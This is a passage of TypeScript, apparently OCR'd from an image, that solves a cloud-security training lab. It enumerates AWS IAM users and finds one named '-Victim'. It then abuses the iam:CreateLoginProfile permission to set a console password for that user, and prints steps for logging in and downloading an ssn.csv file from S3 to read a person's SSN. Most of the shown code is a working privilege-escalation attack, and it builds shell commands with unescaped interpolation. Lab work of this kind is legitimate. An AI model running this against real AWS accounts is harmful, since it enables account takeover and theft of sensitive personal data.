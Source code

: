 ```typescript
    try {
        const users = JSON.parse(execSync('aws iam list-users --profile createlogin').toString());
        console.log("Users:", users);
        // Find the Victim user (using a pattern match, more robust)
        const victimUser = users.Users.find((user: any) => user.UserName.includes("-Victim"));
        if (!victimUser) {
            console.error("Victim user not found.");
            process.exit(1);
        }
        return victimUser;
    } catch (error) {
        console.error("Error listing users:", error);
        process.exit(1);
    }
}

// Exploit the vulnerability: create a login profile for the victim user.
async function createLoginProfile(victimUserName: string) {
    const { execSync } = require('child_process');
    const password = generateSecurePassword(); // Use a strong password generator
    try {
        const result = JSON.parse(execSync(`aws iam create-login-profile --user-name ${victimUserName} --password '${password}' --no-password-reset-required --profile createlogin`).toString());
        console.log("Login profile created:", result);
        return password; // Return the generated password
    } catch (error) {
        console.error("Error creating login profile:", error);
        process.exit(1);
    }
}

// Helper function to generate a secure password (replace with a proper library)
function generateSecurePassword() {
   const crypto = require('crypto');
    return crypto.randomBytes(20).toString('hex'); // Generates a 40-character hex string
}

// Access S3 bucket (after logging in as the Victim user).
async function accessS3Bucket(accountID: string, victimUserName: string, password: string) {
    console.log("\n--- Instructions for Manual Steps ---");
    console.log("1. Open the AWS console login page:");
    console.log(`   https://signin.aws.amazon.com/signin?account=${accountID}`);
    console.log("2. Enter the following credentials:");
    console.log(`   Username: ${victimUserName}`);
    console.log(`   Password: ${password}`);  // Display the password
    console.log("3. Once logged in, switch to the 'N. Virginia' region (us-east-1).");
    console.log("4. Navigate to the S3 service.");
    console.log("5. Locate the bucket containing sensitive data (the name will be similar to the lab name).");
    console.log("6. Download the 'ssn.csv' file.");
    console.log("7. Find Holly Duncan's SSN and submit it to complete the lab.");
    console.log("\n--- End of Manual Steps ---");
}

// Main execution flow
async function main() {
    console.log(systemPrompt()); // Display the system prompt

    await checkInitialAccess();
    const vulnerablePolicy = await enumeratePermissions();
    const victimUser = await listUsers();
    const accountID = victimUser.Arn.split(":")[4]; // Extract account ID from ARN
    const victimUserName = victimUser.UserName;
```